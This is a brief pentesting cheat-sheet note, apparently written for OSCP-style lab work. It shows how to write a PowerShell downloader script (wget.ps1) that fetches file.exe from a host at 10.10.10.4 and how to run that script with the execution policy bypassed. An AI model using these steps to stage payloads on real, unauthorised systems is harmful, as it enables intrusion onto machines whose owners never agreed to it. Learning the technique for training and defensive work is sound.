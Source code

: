 # PowerShell: File Transfer

1. Create a PowerShell-script to download the desired file

        echo $storageDir = $pwd > wget.ps1
        echo $webclient = New-Object System.Net.WebClient >>wget.ps1
        echo $url = "http://10.10.10.4/file.exe" >>wget.ps1
        echo $file = "output-file.exe" >>wget.ps1
        echo $webclient.DownloadFile($url,$file) >>wget.ps1

2. Execute the script

        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

## References

* https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html